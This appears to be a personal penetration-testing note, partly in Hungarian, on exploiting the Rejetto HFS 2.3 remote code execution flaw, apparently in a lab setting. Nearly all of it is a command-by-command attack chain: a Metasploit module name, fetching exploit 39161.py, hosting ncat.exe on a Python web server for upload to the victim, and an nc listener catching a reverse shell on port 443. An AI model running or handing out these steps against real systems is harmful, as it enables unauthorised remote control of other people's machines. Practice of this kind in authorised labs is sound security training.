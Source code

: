 # HFS HttpFileServer 2.3 (Rejetto)
## exploitation with metasploit
* msf> use exploit/windows/http/rejetto_hfs_exec
## manual exploitation
* source: https://systemweakness.com/manual-privilege-escalation-rejetto-http-file-server-windows-rce-1148a025c15a
* download ncat.exe from github (we need to host it on the attack machine and the exploit will upload it to the victim machine)
  * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
* $ searchsploit -m 39161.py
* $ nano 39161.py
  * change "ip_addr" to tun0
  * "localport" can be leaved at "443" or can be changed to arbitrary port (this will be the reverse shell port that nc will get connection on)
* $ mv ncat.exe nc.exe
  * rename netcat exe (in the exploit it is nc.exe, at github repo it is ncat.exe)
* $ python -m http.server 80
  * we need it so the exploit can upload the ncat.exe to the victim
  * if we want to change it we probably has to change the commands in the exploit as well (to the appropriate port that we gave to python)
* $ sudo nc -nvlp 443
  * ha 443-at akarunk hasznalni, akkor kell a 'sudo' mindenkepp ele!!!!!
  * ha masik portot akkor nem feltetlen (de akkor meg at kell irni azt az exploit-ban!!)
* $ python2.7 39161.py 10.10.10.2 80
  * ip and port of victim machine
  * python2.7-el mukodott csak (a tobbi python hibat dobott)

